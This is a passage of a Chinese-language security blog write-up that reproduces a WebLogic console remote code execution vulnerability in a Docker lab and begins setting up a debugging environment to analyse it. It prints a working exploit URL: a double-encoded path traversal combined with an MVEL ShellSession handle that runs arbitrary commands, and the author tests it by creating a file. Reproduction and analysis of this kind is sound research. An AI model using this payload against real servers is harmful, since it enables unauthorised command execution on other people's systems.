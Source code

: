 正常显示控制台登录界面，即代表安装成功。

**0x05 漏洞复现**  

  

根据网上流传较广的 POC：  

```
/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27执行的命令%27);%22);
```

我们使用创建文件的命令测试 POC:

```
http://127.0.0.1:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/pocIsok%27);%22);
```

然后页面上会显示 404：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crx7MJaThiaBvJKq7N3mn4hQ9gIlZglwXjJLDonUjiauxxzOLObApAExbA/640?wx_fmt=png)

然而实际上在 docker 内部我们执行命令已经成功了：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crOia45OLmxZaQiaKmlhUaQibc4IdnWVLlKr5CwQPQvxwq0RPQCUBwbEgQg/640?wx_fmt=png)

**0x06 漏洞分析**  

  

由于 weblogic 的补丁非购买技术支持用户下载不到，所以没办法比较了，只能参考多篇文章来看这个漏洞了

### **调试环境搭建**

首先远程调试需要先开启 weblogic 的远程调试，进入 docker 容器内部修改 setDomainEnv.sh, 由于该环境里面没有 vi/vim 我们复制出来，再复制进去：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crl6gLKRD7WjpIxaiayxia31sEadpTm9VDTJWXuXcIGtz9Ltjiaet7M0pAA/640?wx_fmt=png)

添加如下两句，以防万一我把 local_debug 也一起改了：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crc6dBfsEhLxoqlKWeFFIdQYZXpfq6ko1nmRgn2GPJxwCbicUtmrTILWQ/640?wx_fmt=png)

然后复制回去，随后记得重启 docker，由于复制出来是 root 权限，记得 777 一下，免得复制回去用不了这个了：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crdCWibWScpYyUH2DO3ibb0oqrTuRN3mricx2QUibE6z8DZZY0tbBESmU1Nw/640?wx_fmt=png)

然后 idea 配置一个远程调试:

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crENiaPuKZQwLAEzicBR65MRhmYogvVOnYXoVMQmZ5hbw0EHaWDib3dEu9A/640?wx_fmt=png)

出现下列提示，说明可以开始愉快的调试了：  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7cr0fJ2E5ZwRVGecsJhnj5ednMibKAwtmXAcuVmvic7BAP8w9W1QKtUIbTg/640?wx_fmt=png)

同时我们还需要将 docker 中的源码复制出来:  

```
sudo docker cp 3eda3:/u01/oracle/ ./ # 复制weblogic全部源码
mkdir dep  &&  cp `find ./* -name "*.jar"` ./dep #将jar包全部集中复制到一起
```
